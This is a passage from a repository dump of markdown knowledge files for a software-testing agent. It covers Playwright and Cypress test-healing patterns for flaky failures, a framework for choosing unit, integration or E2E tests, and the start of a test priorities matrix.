- **Related fragments**: `test-healing-patterns.md` (selector failure diagnosis), `fixture-architecture.md` (page object alternatives), `test-quality.md` (maintainability standards)
- **Tools**: Playwright Inspector (Pick Locator), DevTools console, Playwright MCP browser_generate_locator (optional)

_Source: Playwright selector best practices, accessibility guidelines (ARIA), production test maintenance patterns_
```

## File: `src/agents/bmad-tea/resources/knowledge/test-healing-patterns.md`
```markdown
# Test Healing Patterns

## Principle

Common test failures follow predictable patterns (stale selectors, race conditions, dynamic data assertions, network errors, hard waits). **Automated healing** identifies failure signatures and applies pattern-based fixes. Manual healing captures these patterns for future automation.

## Rationale

**The Problem**: Test failures waste developer time on repetitive debugging. Teams manually fix the same selector issues, timing bugs, and data mismatches repeatedly across test suites.

**The Solution**: Catalog common failure patterns with diagnostic signatures and automated fixes. When a test fails, match the error message/stack trace against known patterns and apply the corresponding fix. This transforms test maintenance from reactive debugging to proactive pattern application.

**Why This Matters**:

- Reduces test maintenance time by 60-80% (pattern-based fixes vs manual debugging)
- Prevents flakiness regression (same bug fixed once, applied everywhere)
- Builds institutional knowledge (failure catalog grows over time)
- Enables self-healing test suites (automate workflow validates and heals)

## Pattern Examples

### Example 1: Common Failure Pattern - Stale Selectors (Element Not Found)

**Context**: Test fails with "Element not found" or "Locator resolved to 0 elements" errors

**Diagnostic Signature**:

```typescript
// src/testing/healing/selector-healing.ts

export type SelectorFailure = {
  errorMessage: string;
  stackTrace: string;
  selector: string;
  testFile: string;
  lineNumber: number;
};

/**
 * Detect stale selector failures
 */
export function isSelectorFailure(error: Error): boolean {
  const patterns = [
    /locator.*resolved to 0 elements/i,
    /element not found/i,
    /waiting for locator.*to be visible/i,
    /selector.*did not match any elements/i,
    /unable to find element/i,
  ];

  return patterns.some((pattern) => pattern.test(error.message));
}

/**
 * Extract selector from error message
 */
export function extractSelector(errorMessage: string): string | null {
  // Playwright: "locator('button[type=\"submit\"]') resolved to 0 elements"
  const playwrightMatch = errorMessage.match(/locator\('([^']+)'\)/);
  if (playwrightMatch) return playwrightMatch[1];

  // Cypress: "Timed out retrying: Expected to find element: '.submit-button'"
  const cypressMatch = errorMessage.match(/Expected to find element: ['"]([^'"]+)['"]/i);
  if (cypressMatch) return cypressMatch[1];

  return null;
}

/**
 * Suggest better selector based on hierarchy
 */
export function suggestBetterSelector(badSelector: string): string {
  // If using CSS class → suggest data-testid
  if (badSelector.startsWith('.') || badSelector.includes('class=')) {
    const elementName = badSelector.match(/class=["']([^"']+)["']/)?.[1] || badSelector.slice(1);
    return `page.getByTestId('${elementName}') // Prefer data-testid over CSS class`;
  }

  // If using ID → suggest data-testid
  if (badSelector.startsWith('#')) {
    return `page.getByTestId('${badSelector.slice(1)}') // Prefer data-testid over ID`;
  }

  // If using nth() → suggest filter() or more specific selector
  if (badSelector.includes('.nth(')) {
    return `page.locator('${badSelector.split('.nth(')[0]}').filter({ hasText: 'specific text' }) // Avoid brittle nth(), use filter()`;
  }

  // If using complex CSS → suggest ARIA role
  if (badSelector.includes('>') || badSelector.includes('+')) {
    return `page.getByRole('button', { name: 'Submit' }) // Prefer ARIA roles over complex CSS`;
  }

  return `page.getByTestId('...') // Add data-testid attribute to element`;
}
```

**Healing Implementation**:

```typescript
// tests/healing/selector-healing.spec.ts
import { test, expect } from '@playwright/test';
import { isSelectorFailure, extractSelector, suggestBetterSelector } from '../../src/testing/healing/selector-healing';

test('heal stale selector failures automatically', async ({ page }) => {
  await page.goto('/dashboard');

  try {
    // Original test with brittle CSS selector
    await page.locator('.btn-primary').click();
  } catch (error: any) {
    if (isSelectorFailure(error)) {
      const badSelector = extractSelector(error.message);
      const suggestion = badSelector ? suggestBetterSelector(badSelector) : null;

      console.log('HEALING SUGGESTION:', suggestion);

      // Apply healed selector
      await page.getByTestId('submit-button').click(); // Fixed!
    } else {
      throw error; // Not a selector issue, rethrow
    }
  }

  await expect(page.getByText('Success')).toBeVisible();
});
```

**Key Points**:

- Diagnosis: Error message contains "locator resolved to 0 elements" or "element not found"
- Fix: Replace brittle selector (CSS class, ID, nth) with robust alternative (data-testid, ARIA role)
- Prevention: Follow selector hierarchy (data-testid > ARIA > text > CSS)
- Automation: Pattern matching on error message + stack trace

---

### Example 2: Common Failure Pattern - Race Conditions (Timing Errors)

**Context**: Test fails with "timeout waiting for element" or "element not visible" errors

**Diagnostic Signature**:

```typescript
// src/testing/healing/timing-healing.ts

export type TimingFailure = {
  errorMessage: string;
  testFile: string;
  lineNumber: number;
  actionType: 'click' | 'fill' | 'waitFor' | 'expect';
};

/**
 * Detect race condition failures
 */
export function isTimingFailure(error: Error): boolean {
  const patterns = [
    /timeout.*waiting for/i,
    /element is not visible/i,
    /element is not attached to the dom/i,
    /waiting for element to be visible.*exceeded/i,
    /timed out retrying/i,
    /waitForLoadState.*timeout/i,
  ];

  return patterns.some((pattern) => pattern.test(error.message));
}

/**
 * Detect hard wait anti-pattern
 */
export function hasHardWait(testCode: string): boolean {
  const hardWaitPatterns = [/page\.waitForTimeout\(/, /cy\.wait\(\d+\)/, /await.*sleep\(/, /setTimeout\(/];

  return hardWaitPatterns.some((pattern) => pattern.test(testCode));
}

/**
 * Suggest deterministic wait replacement
 */
export function suggestDeterministicWait(testCode: string): string {
  if (testCode.includes('page.waitForTimeout')) {
    return `
// ❌ Bad: Hard wait (flaky)
// await page.waitForTimeout(3000)

// ✅ Good: Wait for network response
await page.waitForResponse(resp => resp.url().includes('/api/data') && resp.status() === 200)

// OR wait for element state
await page.getByTestId('loading-spinner').waitFor({ state: 'detached' })
    `.trim();
  }

  if (testCode.includes('cy.wait(') && /cy\.wait\(\d+\)/.test(testCode)) {
    return `
// ❌ Bad: Hard wait (flaky)
// cy.wait(3000)

// ✅ Good: Wait for aliased network request
cy.intercept('GET', '/api/data').as('getData')
cy.visit('/page')
cy.wait('@getData')
    `.trim();
  }

  return `
// Add network-first interception BEFORE navigation:
await page.route('**/api/**', route => route.continue())
const responsePromise = page.waitForResponse('**/api/data')
await page.goto('/page')
await responsePromise
  `.trim();
}
```

**Healing Implementation**:

```typescript
// tests/healing/timing-healing.spec.ts
import { test, expect } from '@playwright/test';
import { isTimingFailure, hasHardWait, suggestDeterministicWait } from '../../src/testing/healing/timing-healing';

test('heal race condition with network-first pattern', async ({ page, context }) => {
  // Setup interception BEFORE navigation (prevent race)
  await context.route('**/api/products', (route) => {
    route.fulfill({
      status: 200,
      body: JSON.stringify({ products: [{ id: 1, name: 'Product A' }] }),
    });
  });

  const responsePromise = page.waitForResponse('**/api/products');

  await page.goto('/products');
  await responsePromise; // Deterministic wait

  // Element now reliably visible (no race condition)
  await expect(page.getByText('Product A')).toBeVisible();
});

test('heal hard wait with event-based wait', async ({ page }) => {
  await page.goto('/dashboard');

  // ❌ Original (flaky): await page.waitForTimeout(3000)

  // ✅ Healed: Wait for spinner to disappear
  await page.getByTestId('loading-spinner').waitFor({ state: 'detached' });

  // Element now reliably visible
  await expect(page.getByText('Dashboard loaded')).toBeVisible();
});
```

**Key Points**:

- Diagnosis: Error contains "timeout" or "not visible", often after navigation
- Fix: Replace hard waits with network-first pattern or element state waits
- Prevention: ALWAYS intercept before navigate, use waitForResponse()
- Automation: Detect `page.waitForTimeout()` or `cy.wait(number)` in test code

---

### Example 3: Common Failure Pattern - Dynamic Data Assertions (Non-Deterministic IDs)

**Context**: Test fails with "Expected 'User 123' but received 'User 456'" or timestamp mismatches

**Diagnostic Signature**:

```typescript
// src/testing/healing/data-healing.ts

export type DataFailure = {
  errorMessage: string;
  expectedValue: string;
  actualValue: string;
  testFile: string;
  lineNumber: number;
};

/**
 * Detect dynamic data assertion failures
 */
export function isDynamicDataFailure(error: Error): boolean {
  const patterns = [
    /expected.*\d+.*received.*\d+/i, // ID mismatches
    /expected.*\d{4}-\d{2}-\d{2}.*received/i, // Date mismatches
    /expected.*user.*\d+/i, // Dynamic user IDs
    /expected.*order.*\d+/i, // Dynamic order IDs
    /expected.*to.*contain.*\d+/i, // Numeric assertions
  ];

  return patterns.some((pattern) => pattern.test(error.message));
}

/**
 * Suggest flexible assertion pattern
 */
export function suggestFlexibleAssertion(errorMessage: string): string {
  if (/expected.*user.*\d+/i.test(errorMessage)) {
    return `
// ❌ Bad: Hardcoded ID
// await expect(page.getByText('User 123')).toBeVisible()

// ✅ Good: Regex pattern for any user ID
await expect(page.getByText(/User \\d+/)).toBeVisible()

// OR use partial match
await expect(page.locator('[data-testid="user-name"]')).toContainText('User')
    `.trim();
  }

  if (/expected.*\d{4}-\d{2}-\d{2}/i.test(errorMessage)) {
    return `
// ❌ Bad: Hardcoded date
// await expect(page.getByText('2024-01-15')).toBeVisible()

// ✅ Good: Dynamic date validation
const today = new Date().toISOString().split('T')[0]
await expect(page.getByTestId('created-date')).toHaveText(today)

// OR use date format regex
await expect(page.getByTestId('created-date')).toHaveText(/\\d{4}-\\d{2}-\\d{2}/)
    `.trim();
  }

  if (/expected.*order.*\d+/i.test(errorMessage)) {
    return `
// ❌ Bad: Hardcoded order ID
// const orderId = '12345'

// ✅ Good: Capture dynamic order ID
const orderText = await page.getByTestId('order-id').textContent()
const orderId = orderText?.match(/Order #(\\d+)/)?.[1]
expect(orderId).toBeTruthy()

// Use captured ID in later assertions
await expect(page.getByText(\`Order #\${orderId} confirmed\`)).toBeVisible()
    `.trim();
  }

  return `Use regex patterns, partial matching, or capture dynamic values instead of hardcoding`;
}
```

**Healing Implementation**:

```typescript
// tests/healing/data-healing.spec.ts
import { test, expect } from '@playwright/test';

test('heal dynamic ID assertion with regex', async ({ page }) => {
  await page.goto('/users');

  // ❌ Original (fails with random IDs): await expect(page.getByText('User 123')).toBeVisible()

  // ✅ Healed: Regex pattern matches any user ID
  await expect(page.getByText(/User \d+/)).toBeVisible();
});

test('heal timestamp assertion with dynamic generation', async ({ page }) => {
  await page.goto('/dashboard');

  // ❌ Original (fails daily): await expect(page.getByText('2024-01-15')).toBeVisible()

  // ✅ Healed: Generate expected date dynamically
  const today = new Date().toISOString().split('T')[0];
  await expect(page.getByTestId('last-updated')).toContainText(today);
});

test('heal order ID assertion with capture', async ({ page, request }) => {
  // Create order via API (dynamic ID)
  const response = await request.post('/api/orders', {
    data: { productId: '123', quantity: 1 },
  });
  const { orderId } = await response.json();

  // ✅ Healed: Use captured dynamic ID
  await page.goto(`/orders/${orderId}`);
  await expect(page.getByText(`Order #${orderId}`)).toBeVisible();
});
```

**Key Points**:

- Diagnosis: Error message shows expected vs actual value mismatch with IDs/timestamps
- Fix: Use regex patterns (`/User \d+/`), partial matching, or capture dynamic values
- Prevention: Never hardcode IDs, timestamps, or random data in assertions
- Automation: Parse error message for expected/actual values, suggest regex patterns

---

### Example 4: Common Failure Pattern - Network Errors (Missing Route Interception)

**Context**: Test fails with "API call failed" or "500 error" during test execution

**Diagnostic Signature**:

```typescript
// src/testing/healing/network-healing.ts

export type NetworkFailure = {
  errorMessage: string;
  url: string;
  statusCode: number;
  method: string;
};

/**
 * Detect network failure
 */
export function isNetworkFailure(error: Error): boolean {
  const patterns = [
    /api.*call.*failed/i,
    /request.*failed/i,
    /network.*error/i,
    /500.*internal server error/i,
    /503.*service unavailable/i,
    /fetch.*failed/i,
  ];

  return patterns.some((pattern) => pattern.test(error.message));
}

/**
 * Suggest route interception
 */
export function suggestRouteInterception(url: string, method: string): string {
  return `
// ❌ Bad: Real API call (unreliable, slow, external dependency)

// ✅ Good: Mock API response with route interception
await page.route('${url}', route => {
  route.fulfill({
    status: 200,
    contentType: 'application/json',
    body: JSON.stringify({
      // Mock response data
      id: 1,
      name: 'Test User',
      email: 'test@example.com'
    })
  })
})

// Then perform action
await page.goto('/page')
  `.trim();
}
```

**Healing Implementation**:

```typescript
// tests/healing/network-healing.spec.ts
import { test, expect } from '@playwright/test';

test('heal network failure with route mocking', async ({ page, context }) => {
  // ✅ Healed: Mock API to prevent real network calls
  await context.route('**/api/products', (route) => {
    route.fulfill({
      status: 200,
      contentType: 'application/json',
      body: JSON.stringify({
        products: [
          { id: 1, name: 'Product A', price: 29.99 },
          { id: 2, name: 'Product B', price: 49.99 },
        ],
      }),
    });
  });

  await page.goto('/products');

  // Test now reliable (no external API dependency)
  await expect(page.getByText('Product A')).toBeVisible();
  await expect(page.getByText('$29.99')).toBeVisible();
});

test('heal 500 error with error state mocking', async ({ page, context }) => {
  // Mock API failure scenario
  await context.route('**/api/products', (route) => {
    route.fulfill({ status: 500, body: JSON.stringify({ error: 'Internal Server Error' }) });
  });

  await page.goto('/products');

  // Verify error handling (not crash)
  await expect(page.getByText('Unable to load products')).toBeVisible();
  await expect(page.getByRole('button', { name: 'Retry' })).toBeVisible();
});
```

**Key Points**:

- Diagnosis: Error message contains "API call failed", "500 error", or network-related failures
- Fix: Add `page.route()` or `cy.intercept()` to mock API responses
- Prevention: Mock ALL external dependencies (APIs, third-party services)
- Automation: Extract URL from error message, generate route interception code

---

### Example 5: Common Failure Pattern - Hard Waits (Unreliable Timing)

**Context**: Test fails intermittently with "timeout exceeded" or passes/fails randomly

**Diagnostic Signature**:

```typescript
// src/testing/healing/hard-wait-healing.ts

/**
 * Detect hard wait anti-pattern in test code
 */
export function detectHardWaits(testCode: string): Array<{ line: number; code: string }> {
  const lines = testCode.split('\n');
  const violations: Array<{ line: number; code: string }> = [];

  lines.forEach((line, index) => {
    if (line.includes('page.waitForTimeout(') || /cy\.wait\(\d+\)/.test(line) || line.includes('sleep(') || line.includes('setTimeout(')) {
      violations.push({ line: index + 1, code: line.trim() });
    }
  });

  return violations;
}

/**
 * Suggest event-based wait replacement
 */
export function suggestEventBasedWait(hardWaitLine: string): string {
  if (hardWaitLine.includes('page.waitForTimeout')) {
    return `
// ❌ Bad: Hard wait (flaky)
${hardWaitLine}

// ✅ Good: Wait for network response
await page.waitForResponse(resp => resp.url().includes('/api/') && resp.ok())

// OR wait for element state change
await page.getByTestId('loading-spinner').waitFor({ state: 'detached' })
await page.getByTestId('content').waitFor({ state: 'visible' })
    `.trim();
  }

  if (/cy\.wait\(\d+\)/.test(hardWaitLine)) {
    return `
// ❌ Bad: Hard wait (flaky)
${hardWaitLine}

// ✅ Good: Wait for aliased request
cy.intercept('GET', '/api/data').as('getData')
cy.visit('/page')
cy.wait('@getData') // Deterministic
    `.trim();
  }

  return 'Replace hard waits with event-based waits (waitForResponse, waitFor state changes)';
}
```

**Healing Implementation**:

```typescript
// tests/healing/hard-wait-healing.spec.ts
import { test, expect } from '@playwright/test';

test('heal hard wait with deterministic wait', async ({ page }) => {
  await page.goto('/dashboard');

  // ❌ Original (flaky): await page.waitForTimeout(3000)

  // ✅ Healed: Wait for loading spinner to disappear
  await page.getByTestId('loading-spinner').waitFor({ state: 'detached' });

  // OR wait for specific network response
  await page.waitForResponse((resp) => resp.url().includes('/api/dashboard') && resp.ok());

  await expect(page.getByText('Dashboard ready')).toBeVisible();
});

test('heal implicit wait with explicit network wait', async ({ page }) => {
  const responsePromise = page.waitForResponse('**/api/products');

  await page.goto('/products');

  // ❌ Original (race condition): await page.getByText('Product A').click()

  // ✅ Healed: Wait for network first
  await responsePromise;
  await page.getByText('Product A').click();

  await expect(page).toHaveURL(/\/products\/\d+/);
});
```

**Key Points**:

- Diagnosis: Test code contains `page.waitForTimeout()` or `cy.wait(number)`
- Fix: Replace with `waitForResponse()`, `waitFor({ state })`, or aliased intercepts
- Prevention: NEVER use hard waits, always use event-based/response-based waits
- Automation: Scan test code for hard wait patterns, suggest deterministic replacements

---

## Healing Pattern Catalog

| Failure Type   | Diagnostic Signature                          | Healing Strategy                      | Prevention Pattern                        |
| -------------- | --------------------------------------------- | ------------------------------------- | ----------------------------------------- |
| Stale Selector | "locator resolved to 0 elements"              | Replace with data-testid or ARIA role | Selector hierarchy (testid > ARIA > text) |
| Race Condition | "timeout waiting for element"                 | Add network-first interception        | Intercept before navigate                 |
| Dynamic Data   | "Expected 'User 123' but got 'User 456'"      | Use regex or capture dynamic values   | Never hardcode IDs/timestamps             |
| Network Error  | "API call failed", "500 error"                | Add route mocking                     | Mock all external dependencies            |
| Hard Wait      | Test contains `waitForTimeout()` or `wait(n)` | Replace with event-based waits        | Always use deterministic waits            |

## Healing Workflow

1. **Run test** → Capture failure
2. **Identify pattern** → Match error against diagnostic signatures
3. **Apply fix** → Use pattern-based healing strategy
4. **Re-run test** → Validate fix (max 3 iterations)
5. **Mark unfixable** → Use `test.fixme()` if healing fails after 3 attempts

## Healing Checklist

Before enabling auto-healing in workflows:

- [ ] **Failure catalog documented**: Common patterns identified (selectors, timing, data, network, hard waits)
- [ ] **Diagnostic signatures defined**: Error message patterns for each failure type
- [ ] **Healing strategies documented**: Fix patterns for each failure type
- [ ] **Prevention patterns documented**: Best practices to avoid recurrence
- [ ] **Healing iteration limit set**: Max 3 attempts before marking test.fixme()
- [ ] **MCP integration optional**: Graceful degradation without Playwright MCP
- [ ] **Pattern-based fallback**: Use knowledge base patterns when MCP unavailable
- [ ] **Healing report generated**: Document what was healed and how

## Integration Points

- **Used in workflows**: `*automate` (auto-healing after test generation), `*atdd` (optional healing for acceptance tests)
- **Related fragments**: `selector-resilience.md` (selector debugging), `timing-debugging.md` (race condition fixes), `network-first.md` (interception patterns), `data-factories.md` (dynamic data handling)
- **Tools**: Error message parsing, AST analysis for code patterns, Playwright MCP (optional), pattern matching

_Source: Playwright test-healer patterns, production test failure analysis, common anti-patterns from test-resources-for-ai_
```

## File: `src/agents/bmad-tea/resources/knowledge/test-levels-framework.md`
```markdown
<!-- Powered by BMAD-CORE™ -->

# Test Levels Framework

Comprehensive guide for determining appropriate test levels (unit, integration, E2E) for different scenarios.

## Test Level Decision Matrix

### Unit Tests

**When to use:**

- Testing pure functions and business logic
- Algorithm correctness
- Input validation and data transformation
- Error handling in isolated components
- Complex calculations or state machines

**Characteristics:**

- Fast execution (immediate feedback)
- No external dependencies (DB, API, file system)
- Highly maintainable and stable
- Easy to debug failures

**Example scenarios:**

```yaml
unit_test:
  component: 'PriceCalculator'
  scenario: 'Calculate discount with multiple rules'
  justification: 'Complex business logic with multiple branches'
  mock_requirements: 'None - pure function'
```

### Integration Tests

**When to use:**

- Component interaction verification
- Database operations and transactions
- API endpoint contracts
- Service-to-service communication
- Middleware and interceptor behavior

**Characteristics:**

- Moderate execution time
- Tests component boundaries
- May use test databases or containers
- Validates system integration points

**Example scenarios:**

```yaml
integration_test:
  components: ['UserService', 'AuthRepository']
  scenario: 'Create user with role assignment'
  justification: 'Critical data flow between service and persistence'
  test_environment: 'In-memory database'
```

### End-to-End Tests

**When to use:**

- Critical user journeys
- Cross-system workflows
- Visual regression testing
- Compliance and regulatory requirements
- Final validation before release

**Characteristics:**

- Slower execution
- Tests complete workflows
- Requires full environment setup
- Most realistic but most brittle

**Example scenarios:**

```yaml
e2e_test:
  journey: 'Complete checkout process'
  scenario: 'User purchases with saved payment method'
  justification: 'Revenue-critical path requiring full validation'
  environment: 'Staging with test payment gateway'
```

## Test Level Selection Rules

### Favor Unit Tests When:

- Logic can be isolated
- No side effects involved
- Fast feedback needed
- High cyclomatic complexity

### Favor Integration Tests When:

- Testing persistence layer
- Validating service contracts
- Testing middleware/interceptors
- Component boundaries critical

### Favor E2E Tests When:

- User-facing critical paths
- Multi-system interactions
- Regulatory compliance scenarios
- Visual regression important

## Anti-patterns to Avoid

- E2E testing for business logic validation
- Unit testing framework behavior
- Integration testing third-party libraries
- Duplicate coverage across levels

## Duplicate Coverage Guard

**Before adding any test, check:**

1. Is this already tested at a lower level?
2. Can a unit test cover this instead of integration?
3. Can an integration test cover this instead of E2E?

**Coverage overlap is only acceptable when:**

- Testing different aspects (unit: logic, integration: interaction, e2e: user experience)
- Critical paths requiring defense in depth
- Regression prevention for previously broken functionality

## Test Naming Conventions

- Unit: `test_{component}_{scenario}`
- Integration: `test_{flow}_{interaction}`
- E2E: `test_{journey}_{outcome}`

## Test ID Format

`{EPIC}.{STORY}-{LEVEL}-{SEQ}`

Examples:

- `1.3-UNIT-001`
- `1.3-INT-002`
- `1.3-E2E-001`

## Real Code Examples

### Example 1: E2E Test (Full User Journey)

**Scenario**: User logs in, navigates to dashboard, and places an order.

```typescript
// tests/e2e/checkout-flow.spec.ts
import { test, expect } from '@playwright/test';
import { createUser, createProduct } from '../test-utils/factories';

test.describe('Checkout Flow', () => {
  test('user can complete purchase with saved payment method', async ({ page, apiRequest }) => {
    // Setup: Seed data via API (fast!)
    const user = createUser({ email: 'buyer@example.com', hasSavedCard: true });
    const product = createProduct({ name: 'Widget', price: 29.99, stock: 10 });

    await apiRequest.post('/api/users', { data: user });
    await apiRequest.post('/api/products', { data: product });

    // Network-first: Intercept BEFORE action
    const loginPromise = page.waitForResponse('**/api/auth/login');
    const cartPromise = page.waitForResponse('**/api/cart');
    const orderPromise = page.waitForResponse('**/api/orders');

    // Step 1: Login
    await page.goto('/login');
    await page.fill('[data-testid="email"]', user.email);
    await page.fill('[data-testid="password"]', 'password123');
    await page.click('[data-testid="login-button"]');
    await loginPromise;

    // Assert: Dashboard visible
    await expect(page).toHaveURL('/dashboard');
    await expect(page.getByText(`Welcome, ${user.name}`)).toBeVisible();

    // Step 2: Add product to cart
    await page.goto(`/products/${product.id}`);
    await page.click('[data-testid="add-to-cart"]');
    await cartPromise;
    await expect(page.getByText('Added to cart')).toBeVisible();

    // Step 3: Checkout with saved payment
    await page.goto('/checkout');
    await expect(page.getByText('Visa ending in 1234')).toBeVisible(); // Saved card
    await page.click('[data-testid="use-saved-card"]');
    await page.click('[data-testid="place-order"]');
    await orderPromise;

    // Assert: Order confirmation
    await expect(page.getByText('Order Confirmed')).toBeVisible();
    await expect(page.getByText(/Order #\d+/)).toBeVisible();
    await expect(page.getByText('$29.99')).toBeVisible();
  });
});
```

**Key Points (E2E)**:

- Tests complete user journey across multiple pages
- API setup for data (fast), UI for assertions (user-centric)
- Network-first interception to prevent flakiness
- Validates critical revenue path end-to-end

### Example 2: Integration Test (API/Service Layer)

**Scenario**: UserService creates user and assigns role via AuthRepository.

```typescript
// tests/integration/user-service.spec.ts
import { test, expect } from '@playwright/test';
import { createUser } from '../test-utils/factories';

test.describe('UserService Integration', () => {
  test('should create user with admin role via API', async ({ request }) => {
    const userData = createUser({ role: 'admin' });

    // Direct API call (no UI)
    const response = await request.post('/api/users', {
      data: userData,
    });

    expect(response.status()).toBe(201);

    const createdUser = await response.json();
    expect(createdUser.id).toBeTruthy();
    expect(createdUser.email).toBe(userData.email);
    expect(createdUser.role).toBe('admin');

    // Verify database state
    const getResponse = await request.get(`/api/users/${createdUser.id}`);
    expect(getResponse.status()).toBe(200);

    const fetchedUser = await getResponse.json();
    expect(fetchedUser.role).toBe('admin');
    expect(fetchedUser.permissions).toContain('user:delete');
    expect(fetchedUser.permissions).toContain('user:update');

    // Cleanup
    await request.delete(`/api/users/${createdUser.id}`);
  });

  test('should validate email uniqueness constraint', async ({ request }) => {
    const userData = createUser({ email: 'duplicate@example.com' });

    // Create first user
    const response1 = await request.post('/api/users', { data: userData });
    expect(response1.status()).toBe(201);

    const user1 = await response1.json();

    // Attempt duplicate email
    const response2 = await request.post('/api/users', { data: userData });
    expect(response2.status()).toBe(409); // Conflict
    const error = await response2.json();
    expect(error.message).toContain('Email already exists');

    // Cleanup
    await request.delete(`/api/users/${user1.id}`);
  });
});
```

**Key Points (Integration)**:

- Tests service layer + database interaction
- No UI involved—pure API validation
- Business logic focus (role assignment, constraints)
- Faster than E2E, more realistic than unit tests

### Example 3: Component Test (Isolated UI Component)

**Scenario**: Test button component in isolation with props and user interactions.

```typescript
// src/components/Button.cy.tsx (Cypress Component Test)
import { Button } from './Button';

describe('Button Component', () => {
  it('should render with correct label', () => {
    cy.mount(<Button label="Click Me" />);
    cy.contains('Click Me').should('be.visible');
  });

  it('should call onClick handler when clicked', () => {
    const onClickSpy = cy.stub().as('onClick');
    cy.mount(<Button label="Submit" onClick={onClickSpy} />);

    cy.get('button').click();
    cy.get('@onClick').should('have.been.calledOnce');
  });

  it('should be disabled when disabled prop is true', () => {
    cy.mount(<Button label="Disabled" disabled={true} />);
    cy.get('button').should('be.disabled');
    cy.get('button').should('have.attr', 'aria-disabled', 'true');
  });

  it('should show loading spinner when loading', () => {
    cy.mount(<Button label="Loading" loading={true} />);
    cy.get('[data-testid="spinner"]').should('be.visible');
    cy.get('button').should('be.disabled');
  });

  it('should apply variant styles correctly', () => {
    cy.mount(<Button label="Primary" variant="primary" />);
    cy.get('button').should('have.class', 'btn-primary');

    cy.mount(<Button label="Secondary" variant="secondary" />);
    cy.get('button').should('have.class', 'btn-secondary');
  });
});

// Playwright Component Test equivalent
import { test, expect } from '@playwright/experimental-ct-react';
import { Button } from './Button';

test.describe('Button Component', () => {
  test('should call onClick handler when clicked', async ({ mount }) => {
    let clicked = false;
    const component = await mount(
      <Button label="Submit" onClick={() => { clicked = true; }} />
    );

    await component.getByRole('button').click();
    expect(clicked).toBe(true);
  });

  test('should be disabled when loading', async ({ mount }) => {
    const component = await mount(<Button label="Loading" loading={true} />);
    await expect(component.getByRole('button')).toBeDisabled();
    await expect(component.getByTestId('spinner')).toBeVisible();
  });
});
```

**Key Points (Component)**:

- Tests UI component in isolation (no full app)
- Props + user interactions + visual states
- Faster than E2E, more realistic than unit tests for UI
- Great for design system components

### Example 4: Unit Test (Pure Function)

**Scenario**: Test pure business logic function without framework dependencies.

```typescript
// src/utils/price-calculator.test.ts (Jest/Vitest)
import { calculateDiscount, applyTaxes, calculateTotal } from './price-calculator';

describe('PriceCalculator', () => {
  describe('calculateDiscount', () => {
    it('should apply percentage discount correctly', () => {
      const result = calculateDiscount(100, { type: 'percentage', value: 20 });
      expect(result).toBe(80);
    });

    it('should apply fixed amount discount correctly', () => {
      const result = calculateDiscount(100, { type: 'fixed', value: 15 });
      expect(result).toBe(85);
    });

    it('should not apply discount below zero', () => {
      const result = calculateDiscount(10, { type: 'fixed', value: 20 });
      expect(result).toBe(0);
    });

    it('should handle no discount', () => {
      const result = calculateDiscount(100, { type: 'none', value: 0 });
      expect(result).toBe(100);
    });
  });

  describe('applyTaxes', () => {
    it('should calculate tax correctly for US', () => {
      const result = applyTaxes(100, { country: 'US', rate: 0.08 });
      expect(result).toBe(108);
    });

    it('should calculate tax correctly for EU (VAT)', () => {
      const result = applyTaxes(100, { country: 'DE', rate: 0.19 });
      expect(result).toBe(119);
    });

    it('should handle zero tax rate', () => {
      const result = applyTaxes(100, { country: 'US', rate: 0 });
      expect(result).toBe(100);
    });
  });

  describe('calculateTotal', () => {
    it('should calculate total with discount and taxes', () => {
      const items = [
        { price: 50, quantity: 2 }, // 100
        { price: 30, quantity: 1 }, // 30
      ];
      const discount = { type: 'percentage', value: 10 }; // -13
      const tax = { country: 'US', rate: 0.08 }; // +9.36

      const result = calculateTotal(items, discount, tax);
      expect(result).toBeCloseTo(126.36, 2);
    });

    it('should handle empty items array', () => {
      const result = calculateTotal([], { type: 'none', value: 0 }, { country: 'US', rate: 0 });
      expect(result).toBe(0);
    });

    it('should calculate correctly without discount or tax', () => {
      const items = [{ price: 25, quantity: 4 }];
      const result = calculateTotal(items, { type: 'none', value: 0 }, { country: 'US', rate: 0 });
      expect(result).toBe(100);
    });
  });
});
```

**Key Points (Unit)**:

- Pure function testing—no framework dependencies
- Fast execution (milliseconds)
- Edge case coverage (zero, negative, empty inputs)
- High cyclomatic complexity handled at unit level

## When to Use Which Level

| Scenario               | Unit          | Integration       | E2E           |
| ---------------------- | ------------- | ----------------- | ------------- |
| Pure business logic    | ✅ Primary    | ❌ Overkill       | ❌ Overkill   |
| Database operations    | ❌ Can't test | ✅ Primary        | ❌ Overkill   |
| API contracts          | ❌ Can't test | ✅ Primary        | ⚠️ Supplement |
| User journeys          | ❌ Can't test | ❌ Can't test     | ✅ Primary    |
| Component props/events | ✅ Partial    | ⚠️ Component test | ❌ Overkill   |
| Visual regression      | ❌ Can't test | ⚠️ Component test | ✅ Primary    |
| Error handling (logic) | ✅ Primary    | ⚠️ Integration    | ❌ Overkill   |
| Error handling (UI)    | ❌ Partial    | ⚠️ Component test | ✅ Primary    |

## Anti-Pattern Examples

**❌ BAD: E2E test for business logic**

```typescript
// DON'T DO THIS
test('calculate discount via UI', async ({ page }) => {
  await page.goto('/calculator');
  await page.fill('[data-testid="price"]', '100');
  await page.fill('[data-testid="discount"]', '20');
  await page.click('[data-testid="calculate"]');
  await expect(page.getByText('$80')).toBeVisible();
});
// Problem: Slow, brittle, tests logic that should be unit tested
```

**✅ GOOD: Unit test for business logic**

```typescript
test('calculate discount', () => {
  expect(calculateDiscount(100, 20)).toBe(80);
});
// Fast, reliable, isolated
```

_Source: Murat Testing Philosophy (test pyramid), existing test-levels-framework.md structure._
```

## File: `src/agents/bmad-tea/resources/knowledge/test-priorities-matrix.md`
```markdown
<!-- Powered by BMAD-CORE™ -->

# Test Priorities Matrix

Guide for prioritizing test scenarios based on risk, criticality, and business impact.

## Priority Levels

### P0 - Critical (Must Test)

**Criteria:**

- Revenue-impacting functionality
- Security-critical paths
- Data integrity operations
- Regulatory compliance requirements
- Previously broken functionality (regression prevention)

**Examples:**

- Payment processing
- Authentication/authorization
- User data creation/deletion
- Financial calculations
- GDPR/privacy compliance

**Testing Requirements:**

- Comprehensive coverage at all levels
- Both happy and unhappy paths
- Edge cases and error scenarios
- Performance under load

### P1 - High (Should Test)

**Criteria:**

- Core user journeys
- Frequently used features
- Features with complex logic
- Integration points between systems
- Features affecting user experience

**Examples:**

- User registration flow
- Search functionality
- Data import/export
- Notification systems
- Dashboard displays

**Testing Requirements:**

- Primary happy paths required
- Key error scenarios
- Critical edge cases
- Basic performance validation

### P2 - Medium (Nice to Test)

**Criteria:**

- Secondary features
- Admin functionality
- Reporting features
- Configuration options
- UI polish and aesthetics

